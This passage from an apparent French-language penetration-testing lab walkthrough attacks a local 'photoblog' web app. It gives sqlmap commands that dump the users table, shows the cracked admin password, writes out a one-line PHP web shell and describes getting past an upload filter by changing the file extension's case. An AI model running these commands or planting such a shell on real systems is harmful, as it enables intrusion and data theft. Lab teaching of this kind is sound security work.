 ```text
$ sqlmap --url='http://192.168.200.128/cat.php?id=1' --columns -T users -D photoblog
```

![](https://lh3.googleusercontent.com/Bx7QmaP1QnOcs7WuOJ5__W7kf2qj8OqrMK38v7D7L_LYUrNYq_-c1y1wN6nJyVTQJty_4nrz0FOHziQfVRqDxESX21psVsEM0u985Qh1JS-SN7ayA1qFjO2MKL9MAAbS-Pvlu8XS)

Sqlmap est en mesure d'identifier certains algorithmes de hachage couramment utilisés par les bases de données du marché, notamment :
 

* les fonctions de hachage utilisées par MySQL, PostgreSQL, Microsoft SQL Server et Oracle afin de stocker les mots de passe de la base de données ;
* la fonction MD5 ;
* la fonction SHA-1.

Lorsque sqlmap identifie l'utilisation de l'une de ces fonctions, l'outil est en mesure d'effectuer une attaque par force brute ou par dictionnaire \(soit avec son dictionnaire intégré ou un dictionnaire pouvant être défini par l'utilisateur\) afin de retrouver la valeur du condensat.

```text
$ sqlmap --url='http://192.168.200.128/cat.php?id=1' --dump -T users -D photoblog
```

![](https://lh4.googleusercontent.com/yhIA0bf0Mu3MkeFf949b6jSNmks0DyJScob0yJqOnve1pYu6zw1X2BOwjqpWOwf_jhHsV0Yg3bDspdmGBBnd5BR6-LB3bxtqeM9gCwrrUmw2_UX0dzChR1djkEKCJ3p0YY16xHoe)

{% hint style="info" %}
Le mot de passe du compte admin est P4ssw0rd
{% endhint %}

## Installation d'un script Shell sur le serveur web

![](https://lh5.googleusercontent.com/QV2Q2-R_heHH89G7BglUyIEq3FvWoSzDAMS4swWOMcMQh6NWVTlaP5BhNOOH7wCVMvlZr_2Sm7ZZLiIV2roOdqBmMlUX1Sq9EpIswMf0H6mo_2GZ3GLY7HUos8EGNbPkLy-TZRvF)

![](https://lh5.googleusercontent.com/qcwb1xbur2PRCIBoOMwGg7vs1qrGdNgiu8EieNASoqzRaTmkQ-kwKx-Mv143SPlUe9186jd4UdUJiubwoEbEJVdSpsulNnT1dW4EaJQsk3sSGx09UicdPNV6n8jE8s8hoRwmvqvv)

Création d'un script **myshell.php**

```text
<?php
  system($_GET['cmd']);
?>  
```

Essayons de télécharger le script **myshell.php** sur le serveur en passant le manager d'image

![](https://lh4.googleusercontent.com/rgVWBHSZt8yig0Su8vLFcMW-5wmFyoLLsdnLLUSC3Rwrtg_-XVkI_OT5bu14-ds4OmdlQh9KNevseWuiYq7yTL63qO79A8pH1NYo6c0tpMqRYssEiVjquODhV8_9ivwMchgOYHC8)

![](https://lh5.googleusercontent.com/ORAUqtYxLgdwGfNtoTX0OVtH1MtT40X47LCXtGoId6nBVHz7ThSYE_pmtKDUgZnsdXuXMsrpAePj5IWXCn8HOzUq7fvnJWPPe1AI_siYQ-vD02OSx7_B-9qFjJ_oXr64s5cgkDH_)

{% hint style="info" %}
Le script n'autorise pas le téléchargement de fichier PHP
{% endhint %}

Nous pouvons contourner cette sécurité en renommant le fichier \(Linux est sensible à la case\)

![](https://lh5.googleusercontent.com/iGYURs7TdRw3rVhKQPuQx0cfTvA-BjhOARy98QRWKsN_QXCPSVvjQis1b-1xh9zJcXel1kCAXOc9TpdF0fXG7K0wyjaBtR88c_y3yKmAA9Okr_ecxm6IdTuepnQPiZAR8qdx-N93)
